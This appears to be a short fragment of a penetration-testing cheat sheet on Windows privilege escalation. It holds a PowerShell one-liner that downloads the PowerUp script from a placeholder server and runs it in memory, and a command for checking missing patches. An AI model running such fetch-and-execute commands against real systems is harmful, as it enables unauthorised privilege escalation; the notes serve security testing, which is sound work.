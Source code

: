 # Powershell

```powershell
powershell "IEX (New-Object Net.WebClient).DownloadString('<server>/PowerUp.ps1'); Invoke-AllChecks"
```

Run PowerUp on system

```
Get-Hotfix KB*******
```

Checking missing patches (Powershell)
